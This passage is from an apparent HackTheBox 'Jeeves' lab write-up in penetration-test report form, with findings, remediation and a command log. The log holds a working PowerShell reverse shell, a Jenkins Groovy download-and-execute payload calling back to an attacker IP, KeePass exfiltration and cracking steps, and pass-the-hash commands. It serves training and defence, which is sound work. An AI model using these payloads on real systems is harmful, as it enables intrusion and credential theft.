| **Remediation**                    | - Protect all password databases with long, random master passphrases (20+ characters) that are not dictionary-based — Consider adding a key file or hardware token as a second factor for the KeePass database — Do not leave credential databases on endpoints accessible to service accounts or lower-privileged users — Rotate every credential stored in the exposed database, all of which must now be considered compromised |
| **References**                     | [MITRE ATT&CK: T1555.005 — Credentials from Password Stores: Password Managers](https://attack.mitre.org/techniques/T1555/005/) · [MITRE ATT&CK: T1110.002 — Brute Force: Password Cracking](https://attack.mitre.org/techniques/T1110/002/) · [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html) |

**Evidence:**

```
keepass2john database.kdbx > keepass.hash
john keepass.hash --wordlist=/usr/share/wordlists/rockyou.txt
# moonshine1 (database) — cracked in ~22 seconds
```

`Screenshot keepassdatabase.png: CEH.kdbx located in kohsuke's Documents` `Screenshot passwdtokeepassdatabase.png: John cracking the KeePass master password to moonshine1` `Screenshot credentialskeepass.png: KeePassXC open, displaying the stored credentials`

---

### 4. Verbose SQL Error Messages Disclosing Backend Information — Low

| Field                              | Details                                                                                                                                                                                                  |
| ---------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-209: Generation of Error Message Containing Sensitive Information                                                                                                                                     |
| **CVSS 3.1 Score**                 | 5.3 (Medium) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N`                                                                                                                                            |
| **Description (Incl. Root Cause)** | Submitting a single quote to the "Ask Jeeves" search function on port 80 caused the application to return a full ASP.NET exception page. The error disclosed the backend database product and version (Microsoft SQL Server 2005), internal source file paths (`c:\webroot\Sock_Puppets\App_Code\Generic DataAccess.cs`), source code line numbers, and a detailed stack trace. The root cause is an application configured to return unhandled exception details to the client rather than a generic error page. |
| **Security Impact**                | The disclosed information reveals the technology stack, internal directory structure, and code layout, all of which aid an attacker in crafting targeted attacks (such as SQL injection). Although UNION-based injection was not successfully exploited here, the verbose errors confirmed the input reaches a SQL query and leaked reconnaissance-grade detail. |
| **Affected Host(s)**               | `10.129.228.112:80` (Ask Jeeves application, `error.html?`)                                                                                                                                              |
| **Remediation**                    | - Configure the application to return generic error pages and disable detailed exception output in production (e.g., set ASP.NET `customErrors` to `On`/`RemoteOnly`) — Log detailed errors server-side only, never to the client — Use parameterized queries / prepared statements to prevent SQL injection and validate all user input — Consider upgrading the end-of-life Microsoft SQL Server 2005 backend |
| **References**                     | [MITRE ATT&CK: T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/) · [CWE-209: Generation of Error Message Containing Sensitive Information](https://cwe.mitre.org/data/definitions/209.html) |

**Evidence:**

```
# Single quote submitted to the search function:
'
# Returned an ASP.NET SqlException disclosing:
#   Microsoft SQL Server 2005 - 9.00.4053.00
#   c:\webroot\Sock_Puppets\App_Code\Generic DataAccess.cs Line: 48
```

`Screenshot sqlierror.png: verbose ASP.NET SQL error disclosing backend version and internal paths`

---

## Remediation Summary

### Short Term

- **Finding #1 (Unauthenticated Jenkins)** — Enable Jenkins authentication and authorization immediately, restrict access to the port, and lock down the Script Console.
- **Finding #2 (Pass-the-Hash)** — Rotate the Administrator password/hash and remove any stored privileged credentials from user-accessible locations.
- **Finding #3 (Weak KeePass Password)** — Re-key the KeePass database with a strong passphrase (and ideally a key file), and rotate all credentials it contained.
- **Finding #4 (Verbose SQL Errors)** — Disable detailed error pages on the port 80 application and return generic errors to clients.

### Medium Term

- **Finding #1 (Unauthenticated Jenkins)** — Upgrade Jenkins and all plugins to current versions, and establish a process for keeping CI/CD tooling patched. Place administrative tools behind a VPN or internal-only network segment.
- **Finding #2 (Pass-the-Hash)** — Enforce SMB signing, begin phasing out NTLM in favor of Kerberos, and deploy credential tiering so user-level compromise cannot reach administrator secrets.
- **Finding #3 (Weak KeePass Password)** — Introduce a minimum master-password strength standard for all credential stores and move shared secrets into a managed vault.
- **Finding #4 (Verbose SQL Errors)** — Adopt parameterized queries across the application and upgrade the end-of-life SQL Server 2005 backend.

### Long Term

- Implement a secure deployment baseline for all internet- and network-facing applications that requires authentication, network restriction, and current patch levels before any service is exposed.
- Deploy a centralized privileged-access-management and secrets solution to eliminate the practice of storing credentials and hashes in files and personal password databases.
- Establish recurring vulnerability assessments and configuration reviews to detect exposed services, weak credentials, and permission drift before they can be exploited.
- Provide developer and administrator training on secure error handling, credential hygiene, and the risks of hash reuse.

---

## Lessons Learned / Skills Demonstrated

**Skill/Technique 1: Service Enumeration and Hidden Application Discovery.** Identified a non-standard Jetty service on port 50000 and used directory brute-forcing to uncover the hidden `/askjeeves` Jenkins application, demonstrating the value of enumerating every open port rather than only the obvious web surface.

**Skill/Technique 2: Jenkins Script Console Remote Code Execution.** Leveraged an unauthenticated Jenkins Groovy Script Console to execute a PowerShell reverse shell, converting an exposed administrative tool into full remote code execution and an initial foothold.

**Skill/Technique 3: Offline KeePass Cracking.** Exfiltrated a KeePass database via Base64 encoding, extracted its hash with `keepass2john`, and cracked the weak master password with John the Ripper — illustrating the risk of weakly protected credential stores left on endpoints.

**Skill/Technique 4: Pass-the-Hash Privilege Escalation.** Recognized that the KeePass "Backup stuff" entry held an NTLM hash rather than a plaintext password, validated it with NetExec, and replayed it with Impacket's `psexec` to gain Administrator access — demonstrating that hashes are reusable credentials in NTLM environments.

**Skill/Technique 5: NTFS Alternate Data Stream Recovery.** Interpreted the "look deeper" hint, used `dir /r` to enumerate hidden NTFS Alternate Data Streams, and read the flag from `hm.txt:root.txt` — a technique both attackers and defenders must understand for data hiding on Windows.

---

## Appendix

### A. Finding Severity Definitions

| Rating       | Definition                                                                                     |
| ------------ | ---------------------------------------------------------------------------------------------- |
| **Critical** | Exploitation leads to full system/domain compromise with little to no effort or prerequisites. |
| **High**     | Exploitation causes substantial harm to confidentiality, integrity, or availability.           |
| **Medium**   | Exploitation has a moderate impact, or a high-impact issue with limited exposure.              |
| **Low**      | Exploitation causes minimal impact to operations.                                              |
| **Info**     | An observation or improvement opportunity; not itself a vulnerability.                         |

### B. Exploited Hosts

| Host                   | Method                                              | Notes                                                        |
| ---------------------- | --------------------------------------------------- | ----------------------------------------------------------- |
| `10.129.228.112:50000` | Unauthenticated Jenkins Script Console RCE          | Reverse shell as `jeeves\kohsuke`; user.txt captured         |
| `10.129.228.112:445`   | Pass-the-hash (Administrator NT hash via psexec)    | SYSTEM-level shell as `administrator`; root.txt captured      |

### C. Compromised Users / Credentials

| Username        | Method                                                         | Notes                                               |
| --------------- | ------------------------------------------------------------- | -------------------------------------------------- |
| `kohsuke`       | Jenkins Script Console RCE (reverse shell)                    | Initial foothold; user.txt; held the KeePass DB     |
| KeePass master  | `keepass2john` + John the Ripper (`moonshine1`)              | Unlocked all stored credentials                     |
| `administrator` | NT hash recovered from KeePass, replayed via pass-the-hash    | Full compromise; root.txt captured from an ADS      |

### D. Command Reference Log

```
# ──────────────────────────────────────────────
# PHASE 1: RECONNAISSANCE & ENUMERATION
# ──────────────────────────────────────────────
sudo nmap 10.129.228.112 -p- -sC -sV -Pn

# Web app on port 80 — SQLi test (verbose error only):
'

# Directory brute-force the Jetty service on 50000:
gobuster dir -u http://10.129.228.112:50000/ -w DirBuster-2007_directory-list-lowercase-2.3-medium.txt
# /askjeeves (Status: 302) -> Jenkins 2.87

# ──────────────────────────────────────────────
# PHASE 2: FOOTHOLD VIA JENKINS RCE
# ──────────────────────────────────────────────
# Host the payload + listener:
cat > shell.ps1 << 'EOF'
$client = New-Object System.Net.Sockets.TCPClient('10.10.15.85',4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
}
$client.Close()
EOF
sudo python3 -m http.server 8080
nc -lvnp 4444

# Groovy Script Console payload (http://10.129.228.112:50000/askjeeves/script):
def cmd = 'powershell -c "IEX(New-Object Net.WebClient).DownloadString(\'http://10.10.15.85:8080/shell.ps1\')"'
def process = cmd.execute()
println process.text

# On the shell:
whoami
type c:\users\kohsuke\desktop\user.txt
# e3232272596fb47950d59c4cf1e7066a

# ──────────────────────────────────────────────
# PHASE 3: LOOT KEEPASS & CRACK
# ──────────────────────────────────────────────
cd C:\users\kohsuke\Documents
dir
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\users\kohsuke\Documents\CEH.kdbx"))

echo '<base64 blob>' | base64 -d > database.kdbx
keepass2john database.kdbx > keepass.hash
john keepass.hash --wordlist=/usr/share/wordlists/rockyou.txt
# moonshine1

sudo apt install keepassxc
keepassxc database.kdbx
# NT hash recovered: e0fb1fb85756c24235ff238cbe81fe00

# ──────────────────────────────────────────────
# PHASE 4: PASS-THE-HASH & ROOT
# ──────────────────────────────────────────────
nxc smb 10.129.228.112 -u administrator -H e0fb1fb85756c24235ff238cbe81fe00
# Pwn3d!

impacket-psexec -hashes :e0fb1fb85756c24235ff238cbe81fe00 administrator@10.129.228.112
dir C:\Users\Administrator\Desktop
type hm.txt
# "The flag is elsewhere. Look deeper."

dir /r C:\Users\Administrator\Desktop
more < C:\Users\Administrator\Desktop\hm.txt:root.txt
# afbc5bd4b615a60648cec41c6ac92530
```

### E. References

- [MITRE ATT&CK: T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- [MITRE ATT&CK: T1550.002 — Use Alternate Authentication Material: Pass the Hash](https://attack.mitre.org/techniques/T1550/002/)
- [MITRE ATT&CK: T1555 — Credentials from Password Stores](https://attack.mitre.org/techniques/T1555/)
- [MITRE ATT&CK: T1555.005 — Credentials from Password Stores: Password Managers](https://attack.mitre.org/techniques/T1555/005/)
- [MITRE ATT&CK: T1110.002 — Brute Force: Password Cracking](https://attack.mitre.org/techniques/T1110/002/)
- [MITRE ATT&CK: T1564.004 — Hide Artifacts: NTFS File Attributes (Alternate Data Streams)](https://attack.mitre.org/techniques/T1564/004/)
- [CWE-306: Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)
- [CWE-94: Improper Control of Generation of Code](https://cwe.mitre.org/data/definitions/94.html)
- [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)
- [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)
- [CWE-209: Generation of Error Message Containing Sensitive Information](https://cwe.mitre.org/data/definitions/209.html)
- [Jenkins Security — Securing Jenkins](https://www.jenkins.io/doc/book/security/)
- [Official HackTheBox Jeeves Machine Page](https://app.hackthebox.com/machines/Jeeves)

> **Note on CVEs:** No CVEs apply to this assessment. All findings are misconfigurations (unauthenticated Jenkins, verbose error output), insecure credential storage and reuse, and a weak password rather than vulnerabilities in versioned third-party software with public CVE assignments. Remediation is therefore configuration- and process-based.
